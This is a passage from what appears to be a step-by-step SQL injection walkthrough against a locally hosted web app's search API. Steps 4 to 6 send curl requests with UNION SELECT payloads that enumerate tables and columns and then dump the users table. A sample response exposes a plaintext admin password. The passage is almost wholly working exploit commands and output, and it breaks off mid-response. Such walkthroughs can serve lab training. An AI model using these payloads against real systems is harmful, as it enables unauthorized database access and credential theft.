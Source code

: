 **Step 4: List All Tables**

```bash
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT 1,table_name,3,4,5,6,7 FROM information_schema.tables WHERE table_schema=database()-- "
  }'
```

**Response:**
```json
{
  "success": true,
  "results": [
    {"username": "users"},
    {"username": "sessions"},
    {"username": "files"},
    {"username": "secret_data"}
  ]
}
```

**Step 5: Extract Column Names**

```bash
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT 1,column_name,3,4,5,6,7 FROM information_schema.columns WHERE table_name='\''users'\''-- "
  }'
```

**Step 6: Extract All User Credentials**

```bash
# Most direct way - extract all columns from users table
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT * FROM users-- "
  }'

# Or specify exact columns (7 columns total)
curl -X POST http://localhost:3000/api/search \
  -H "Content-Type: application/json" \
  -d '{
    "query": "test'\'' UNION SELECT id,username,password,email,role,created_at,updated_at FROM users-- "
  }'
```

**Response:**
```json
{
  "success": true,
  "results": [
    {
      "id": 1,
      "username": "admin",
      "password": "admin123",  // Plain text password exposed!
      "email": "admin@wcorp.com",
      "role": "admin",
      "created_at": "2025-01-01T00:00:00.000Z",
      "updated_at": "2025-01-01T00:00:00.000Z"
    },
```